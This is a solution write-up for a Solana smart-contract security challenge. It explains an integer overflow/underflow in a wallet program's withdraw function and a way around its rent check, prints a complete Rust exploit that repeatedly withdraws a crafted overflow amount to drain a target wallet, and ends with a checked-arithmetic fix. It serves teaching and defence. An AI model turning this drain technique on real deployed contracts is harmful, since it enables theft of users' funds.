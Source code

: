 # Solution - Overflow/Underflow

The vulnerability in this contract is an overflow/underflow in the withdraw function:

```rs
    **wallet_info.lamports.borrow_mut() -= amount;
    **destination_info.lamports.borrow_mut() += amount;
```

Remember that lamports are fractions of SOL. For a large `amount` the `u64` lamports overflow/underflow. If an attacker sets `wallet_info` to the hacker's wallet and `destination_info` to the rich-boi-wallet, they can underflow the `wallet_info` and therefore increase his lamports. Alternatively, they can overflow the `destination_info` and therefore decrease the destination lamports. 
See [here](https://play.rust-lang.org/?version=stable&mode=release&edition=2021&gist=c446a40de01a3af7957817ebe199237a).

There is one more trick to it, as there is a rent check: 
```rs
    let min_balance = rent.minimum_balance(WALLET_LEN as usize);
    if min_balance + amount > **wallet_info.lamports.borrow_mut() {
        return Err(ProgramError::InsufficientFunds);
    }
```
But this only limits the maximum amount stolen per iteration to min_balance lamports.


Here is the example exploit code that Thomas, one of our colleagues, wrote:

```rust
use borsh::BorshSerialize;
use level2::{WalletInstruction, get_wallet_address};
use solana_program::instruction::{AccountMeta, Instruction};
use solana_program::rent::Rent;
use solana_program::sysvar;



fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    // create hackers wallet
    assert_tx_success(env.execute_as_transaction(
        &[level2::initialize(
            challenge.wallet_program,
            challenge.hacker.pubkey(),
        )],
        &[&challenge.hacker],
    ));

    let hacker_wallet = get_wallet_address(challenge.hacker.pubkey(), challenge.wallet_program);

    let to_transfer = Rent::default().minimum_balance(8);
    println!("To transfer: {}", to_transfer);
    //let to_transfer = 1_000_000u64;
    let overflow = (-(to_transfer as i64)) as u64;

    let iters = 10;

    for i in 0..iters {
        let tx = env.execute_as_transaction(
            &[Instruction {
                program_id: challenge.wallet_program,
                accounts: vec![
                    AccountMeta::new(hacker_wallet, false),              // source wallet
                    AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                    AccountMeta::new(challenge.wallet_address, false),   // target wallet
                    AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
                ],
                data: WalletInstruction::Withdraw { amount: overflow+i }.try_to_vec().unwrap(),
            }],
            &[&challenge.hacker],
        );
        tx.print_named(&format!("haxx {}", i));
    }
    

    let tx = env.execute_as_transaction(
        &[Instruction {
            program_id: challenge.wallet_program,
            accounts: vec![
                AccountMeta::new(hacker_wallet, false),              // source wallet
                AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                AccountMeta::new(challenge.hacker.pubkey(), false),  // target wallet
                AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
            ],
            data: WalletInstruction::Withdraw { amount: to_transfer*iters-1000 }.try_to_vec().unwrap(),
        }],
        &[&challenge.hacker],
    );
    tx.print_named("hacker withdraw");
}
```

# Mitigation

By replacing the math with checked math in the `withdraw` function, this vulnerability can be prevented:

```rust
{
    let mut wallet_info_lapmorts = wallet_info.lamports.borrow_mut();
    **wallet_info_lapmorts = (**wallet_info_lapmorts).checked_sub(amount).unwrap();
}

{
    let mut destination_info_lapmorts = destination_info.lamports.borrow_mut();
    **destination_info_lapmorts = (**destination_info_lapmorts).checked_add(amount).unwrap();
}
```
